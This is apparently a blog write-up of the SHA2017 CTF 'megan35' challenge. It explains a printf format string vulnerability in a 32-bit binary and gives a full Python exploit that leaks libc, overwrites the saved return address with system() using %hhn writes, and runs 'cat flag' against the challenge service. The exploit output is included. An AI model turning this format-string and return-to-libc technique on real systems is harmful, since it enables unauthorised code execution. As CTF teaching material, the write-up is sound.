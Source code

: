 ```yaml
---
title: SHA2017 CTF - megan35 (pown 200)
author: Tosh
date: 2017-08-07
tags: ctf,pown,format string
layout: post
---
```


This is my solution for the challenge megan35 from SHA2017 CTF.

# Description of the challenge

We created our own Megan-35 decoding tool, feel free to test it. System is running Ubuntu 16.04, ASLR is disabled.

A service is running on megan35.stillhackinganyway.nl:3535.

Files provided (ELF-32 bits):

- [megan-35](https://repo.t0x0sh.org/CTF/SHA_2017/megan-35)

- [libc.so.6](https://repo.t0x0sh.org/CTF/SHA_2017/libc.so.6)

Protections :

```
RELRO          Partial RELRO
STACK CANARY   Canary found
NX             NX enabled
PIE            No PIE
RPATH          No RPATH
RUNPATH        No RUNPATH
ASLR           ASLR is disabled
```

# The vulnerability

The program decodes a megan35 string, and print it to stdout. The problem is that the buffer is directly passed to the printf() function which makes the program vulnerable to format string attack.

To build my exploit, I used the script [weird_encodings.py](https://gist.github.com/tunelko/49b7e64c1688d62d0ecd) from a github repository to encode strings in megan-35.

I started to get the base address of libc function from the leak of the format string (by using "%s").

With this address and the libc provided, I'm now able to build a return2libc attack and overwrite the saved-eip with the system() address !

And all is done !


# My exploit

```python
import base64
import sys
import struct

class Megan35:

    def __init__(self):
        megan35 = "3GHIJKLMNOPQRSTUb=cdefghijklmnopWXYZ/12+406789VaqrstuvwxyzABCDEF5"
        b = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/="
        self.srch = dict(zip(b, megan35))
        self.revlsrch = dict(zip(megan35, b))

    def encode(self, pt):
        global srch
        b64 = base64.b64encode(pt)
        r = "".join([self.srch[x] for x in b64])
        return r

# Obtained with a bit of bruteforcing :)
SEIP = 0xFFFFdb5c

# Obtained with leak
SYSTEM = 0xf7e53940

payload = struct.pack('<I', SEIP+3)
payload += struct.pack('<I', SEIP+2)
payload += struct.pack('<I', SEIP+1)
payload += struct.pack('<I', SEIP+0)

FMT = "a;cat flag    ;%0{}x%7$hhn%0{}x%8$hhn
                     %0{}x%9$hhn%0{}x%10$hhn\n".format(220,238,84,263)

payload += Megan35().encode(FMT)

print payload
```

We get :

```
$ python2.7 sploit.py | ncat megan35.stillhackinganyway.nl 3535
  Decrypt your text with the MEGAN-35 encryption.
  sh: 1: }yuqa: not found
  flag{43eb404b714b8d22e1168775eba1669c}
  sh: 1: %0220x%7%0238x%8%084x%9%0263x%10: not found
```
